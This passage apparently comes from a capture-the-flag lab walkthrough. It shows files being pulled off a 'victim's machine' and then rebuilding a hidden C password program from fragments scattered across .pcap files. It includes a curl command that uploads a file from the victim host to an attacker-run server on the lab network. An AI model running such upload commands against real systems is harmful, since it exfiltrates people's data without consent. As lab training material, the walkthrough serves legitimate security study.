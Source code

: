 In the victim's machine:
3. `curl -X POST 'http://192.168.56.5:8000/upload' -F 'files=@./fun'`

![](./images/lmezard_upload_fun.png)


Now let's extract the archive.

- `tar -xvf ./fun`

It creates a directory named **ft_fun** full of **.pcap** files. Pcap files are logs of captured traffic over a network,
we can read thoses files with **wireshark**, but in a first place, we have to sort them.

A simple **cat** on them reveals their content:

```
//file210}void useless() {
//file88	printf("Hahahaha Got you!!!\n");
//file586	printf("Hahahaha Got you!!!\n");
//file63}void useless() {
//file667	printf("Hahahaha Got you!!!\n");
//file395}void useless() {
//file440}void useless() {
//file279	printf("Hahahaha Got you!!!\n");
//file652	printf("Hahahaha Got you!!!\n");
//file449	printf("Hahahaha Got you!!!\n");
//file614	printf("Hahahaha Got you!!!\n");
//file200	printf("Hahahaha Got you!!!\n");
//file75void useless() {
//file9	printf("Hahahaha Got you!!!\n");
//file95	printf("Hahahaha Got you!!!\n");
```

It seems to ask for a password or something to validates and it's a C code. Maybe there is a main function.

```
grep -A31 main *
BJPCP.pcap:int main() {
BJPCP.pcap-	printf("M");
BJPCP.pcap-	printf("Y");
BJPCP.pcap-	printf(" ");
BJPCP.pcap-	printf("P");
BJPCP.pcap-	printf("A");
BJPCP.pcap-	printf("S");
BJPCP.pcap-	printf("S");
BJPCP.pcap-	printf("W");
BJPCP.pcap-	printf("O");
BJPCP.pcap-	printf("R");
BJPCP.pcap-	printf("D");
BJPCP.pcap-	printf(" ");
BJPCP.pcap-	printf("I");
BJPCP.pcap-	printf("S");
BJPCP.pcap-	printf(":");
BJPCP.pcap-	printf(" ");
BJPCP.pcap-	printf("%c",getme1());
BJPCP.pcap-	printf("%c",getme2());
BJPCP.pcap-	printf("%c",getme3());
BJPCP.pcap-	printf("%c",getme4());
BJPCP.pcap-	printf("%c",getme5());
```